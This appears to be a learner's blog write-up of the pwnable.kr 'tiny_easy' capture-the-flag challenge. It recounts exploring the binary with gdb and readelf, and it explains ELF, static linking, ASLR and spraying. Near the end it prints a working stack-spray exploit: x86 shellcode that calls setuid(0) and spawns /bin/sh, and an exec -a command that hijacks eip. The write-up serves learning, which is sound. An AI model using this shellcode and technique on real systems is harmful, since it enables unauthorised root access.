







#**tiny_easy**

*I made a pretty difficult pwn task.
However I also made a dumb rookie mistake and made it too easy :(
This is based on real event :) enjoy.*

———————————————–

This was the first Rookiss-level challenge I attempted, and I have been struggling with it for about two weeks now. It involves going into gdb and observing the memory to determine what to do next, but i wasn't able to get past that.

Initially, the challenge asks you to ssh into a pwnable server to start. Going into the server and looking at the directory, we see the following:



Pretty standard so far. Trying to run ./tiny_easy however, wasn't so easy.


Whatever input I tried to give the program, it would always end up as a segmentation fault.

So the natural conclusion I had was to pop it into gdb and see if I could get any more details about what was happening there. Running gdb….



.. gave me absolutely nothing.


Running a backtrace on the crashed program also yielded nothing.


I needed to find something else, because I was just getting nowhere. I found a tutorial from sheepshellcode.com, which gave me a few more ideas of where to start looking.

Firstly, I ran a file command on the tiny_easy file. I got this for the output:


I actually learned a couple things from this. Firstly, I had never heard of an ELF executable, and it turns out that ELF stands for "Executable and Linkable Format". Within Linux, it is the common standard file format for executable files.



As that stands, it didn't really tell me much about the file itself, knowing it is just a common standard.

The second thing in the output that was foreign to me was the "statically linked" part. I had honestly never heard of the team before, so I did some googling and read a bit more. A statically linked program is "a set of routines, external functions and variables which are resolved in a caller at compile-time and copied into a target application by a compiler, linker or binder, producing an object-file and a stand-alone executable". From what i can tell, this essentially means that any references to external functions or objects get added in during compile time, so that the executable is a stand-alone package. This would differ from something like a translated language, which runs the program line-by-line.


Once I had done this, I continued reading and found that the tutorial used a command called readelf, which essentially read the header of the file.



This gave a bit more information about the file, but still didn't really help. I used gdb to set a breakpoint at the Entry point address that was given in the findelf command. When I ran it with gdb, the program hadn't segfaulted yet, which was kind of expected since the program wouldn't have started.


I was again stuck, and truthfully reading through his solution I'm not sure if I woiuld be able to get it without quite a bit more research and practice into doing these kinds of challenges.

He eventually finds that by modifying the value of the first 4 characters of argv[0] with a exec -a command will allow us to change the value of the register eip.

He introduces another technique called "heap spraying" that I had never heard of, but which makes sense to me based on the write-up. ASLR (Address Space Layout Randomisation) is a feature that aims to address exploits such as these by randomising the actual location of the program in memory. Therefore, it is hard to make an attack that changes addresses since the attacker does not know where it will be in memory. Heap spraying tries to get around this by putting the malicious code or address in as many places as possible, combined with nops. nops are a blank instruction, and will move to the next instruction if they are hit. Therefore, with this method the chance of hitting the code by random is greatly increased, (and is the reason why the method is called "spraying", since we are simply guessing where it would be).


The tutorial tries spraying the stack instead of the heap, using the following exploit:

|-------EXPLOIT-------|
```
for i in `seq 1 100`;
do
export A_$i=$(python -c 'print "\x90"*4096 + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"');
done
```

Once the stack is sprayed, the following exploit is run, and on the second time hit one of the malicious shellcode operations and gave root access.

```
exec -a $(python -c 'print "\x90\xd5\x9c\xff"') ./tiny_easy
```

This was definitely way out of my league, having never heard of many of the tools and techniques used, but I am glad that I attempted it and did some research. I actually learnt quite a bit from looking at a solution, and I will make sure to try a challenge that involves something like heap/stack spraying in the future. 

---

*23/7/2019*